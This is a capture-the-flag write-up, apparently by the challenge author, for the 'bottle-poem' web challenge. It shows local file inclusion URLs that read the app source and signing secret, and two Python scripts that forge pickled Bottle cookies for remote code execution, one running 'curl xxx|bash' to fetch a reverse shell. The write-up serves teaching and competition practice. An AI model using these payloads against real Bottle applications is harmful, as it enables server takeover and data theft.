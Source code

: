 # Writeup

It's easy to find that this website has LFI. If you want to read file directly but failed, that does not mean we tried to hide the flag file, it means you don't have enough execute permission to read it. Since there were many tickets about it, we later updated description that flag is an executable on server, and you don't need to bruteforce or guess anything. Flag is in the common path `./flag`.

So we need to read source, just like this:

http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cwd/app.py

And we don't need to bruteforce `proc/self/`, just use it to got sourcecode.

Use this way you can read the secret `--sekai`

http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cwd/config/secret.py

Now you can control the cookies, but if you read something just like `/views/admin.html` or just make guest to admin you would find it's a troll. You need RCE truely, and if you search some documentation you will find the bottle's `cookie_decode()` will unpickle. So we use this to get RCE.

https://github.com/bottlepy/bottle/issues/900

Here are the steps
1. lfi to read file and	secret
2. use cookie pickle rce to reverse a shell
3. execute ./flag to get flag

Demo exploit: 

```py
import base64,hashlib,pickle,hmac
import os

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)


def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, 0))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg

class test():
    def __reduce__(self):
        return (eval,('__import__("os").popen("command")',))

obj = test()
a = cookie_encode(obj,'Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu')
print(a)
```

Or you can just use bottle's cookie encode

**Notice:** You need reverse shell 

```python
import bottle
import requests
url='http://bottle-poem.ctf.sekai.team/sign'
secret = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
class Exploit:
    def __reduce__(self):
        return (eval, ('__import__("os").popen("curl xxx|bash")',))

exp = bottle.cookie_encode(
    ('session', {"name": [Exploit()]}),
    secret
)

print(exp)
```

Will remove pickle to decode and instead of json.

This is a basic lfi to rce, but seems a little too hard for new CTF players (due to the new trick). I will make an easier challenge next year :)